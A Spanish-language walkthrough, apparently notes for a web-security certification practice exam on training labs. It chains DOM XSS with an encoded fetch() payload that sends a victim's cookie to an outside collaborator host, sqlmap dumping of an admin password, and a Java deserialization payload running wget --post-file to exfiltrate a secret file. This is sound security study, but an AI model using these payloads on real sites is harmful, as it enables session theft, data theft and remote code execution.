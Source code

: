 
# Stage 1
DOM XSS, poniendo el canary XSS me la detecta :
![](imgs/practice_exam_1.png)

Pero no me la auto explota:
![](imgs/practice_exam_1-1.png)

Hay que leer que pasa para realizar el XSS manual. Sabemos que aqui hay DOM XSS casi 100%. Vemos donde esta llegando nuestro payload:

![](imgs/practice_exam_1-2.png)![](imgs/practice_exam_1-3.png)

Se está haciendo uan asignación a searchResultsObj de toda la respuesta que nos da el server, que es esta:
![](imgs/practice_exam_1-4.png)
![](imgs/practice_exam_1-5.png)

Tenemos que hacer que this.responseText haga que el eval tenga un payload:

eval('var searchResultsObj = ' + TOCHOGORDO - alert(1));
Algo asi:
![](imgs/practice_exam_1-6.png)

Y efectivamente:
![](imgs/practice_exam_1-7.png)

Ahora no nos vale alert(1), queremos exfiltrar la cookie del usuario. Vamos a probar con document.cookie a ver si hay algún filtro:
![](imgs/practice_exam_1-8.png)

Y si, hay algún filtro. vamos a ver dónde podemos saltarnos estos filtros en los labs. Botesjuan me salva la vida:
![](imgs/practice_exam_1-9.png)

![](imgs/practice_exam_1-10.png)

Vale, bypasseamos esta verificación. Ahora tenemos que exfiltrar esta cookie a un endpoint, podemos usar fetch: 
![](imgs/practice_exam_1-12.png)

Pero nos lo detecta. Vamos a hacer un encodeo de todo esto:

`fetch(https://p1rsbtma2mdv1z9lu3qdd4vwbnhe55tu.oastify.com/?json=+%20document["cookie"%20]))//`

lo encodeamos y hacemos eval(atob(base64)), manera de bypassear una verificación de strings:

![](imgs/practice_exam_1-13.png)
`https://0af90096035988ca801717b100f300e8.web-security-academy.net/?SearchTerm=whatever%22}-eval(atob(%22ZmV0Y2goYGh0dHBzOi8vcDFyc2J0bWEybWR2MXo5bHUzcWRkNHZ3Ym5oZTU1dHUub2FzdGlmeS5jb20vP2pzb249YCtkb2N1bWVudFsiY29va2llIl0p%22))//`
Recibimos la cookie nuestra:
![](imgs/practice_exam_1-14.png)

De lujo, ahora toca hacer un iframe o script y holdear esta url que es la que queremos que visite el user:
![](imgs/practice_exam_1-15.png)

Nos llega esa cookie que no es nuestra sino del user. La reemplazamos para las futuras request.

Stage 2: hay busqueda avanzada. probablemente SQLi. Si no nos sale en SQLmap, probar otras cosas. La SQLi puede NO SER EN search term y tambien ser en una cookie llamada trackingId, ojo.
![](imgs/practice_exam_1-16.png)

en ese término no hay sqli. Voy a probar con organize_by:

![](imgs/practice_exam_1-17.png)
Sí que lo detecta el análisis cuando seleccionamos el insertion point:
![](imgs/practice_exam_1-18.png)
Pasandole la request a sqmap y insertando ese insertion point, al rato (10 MINS) lo detecta:
![](imgs/sqli_retrieval-4.png)

Primero --dbs, luego -D `<database>` y --tables y finalmente -D `<database>` -T `<TABLA>`
![](imgs/sqli_retrieval-5.png)


Ya tenemos la password de admin:


Vemos que el panel /admin da poca info, pero el host nos da una cookie que nosotros usamos en las siguientes request:
![](imgs/sqli_retrieval-6.png)

![](imgs/sqli_retrieval-7.png)

Cookie chunga: posible serializacion de datos (si no está encodeado). Tiene pinta de que testá base64 y luego encoded:
![](imgs/sqli_retrieval-9.png)

Cyberchef nos dice que sí, y qued además, es un tipo de archivo gzip. 
Nos vamos a BurpSuite, cogemos el parámetro y click derecho y lo llevamos a Deserialization Scanner (la extensión).
COmo el parámetro está hecho a gzip, luego base64 y luego decodeado, lo tenemos que añadir al revés, es decir, decodado, base64, gzip
IMPORTANTE SELECCIONAR DNS, no SLEEP, que con DNS exfiltramos datos:
![](imgs/sqli_retrieval-10.png)
![](imgs/sqli_retrieval-11.png)

Y ahora llevamos la misma request a la ventana de exploit:
![](imgs/sqli_retrieval-12.png)

Ponemos el mismo flujo (gzip, base, urlencode) y el siguiente payload:
`CommonsCollections2 '/usr/bin/wget --post-file /home/carlos/secret https://eweh6ihzxb8kwo4apsl28tql6cc40xom.oastify.com' `
HE USADO EL 2 PORQUE ES EL QUE DAN EN LOS LABS, PERO SI NO PROBARIA CON TODOS LOS OTROS A VER SI CUELA.
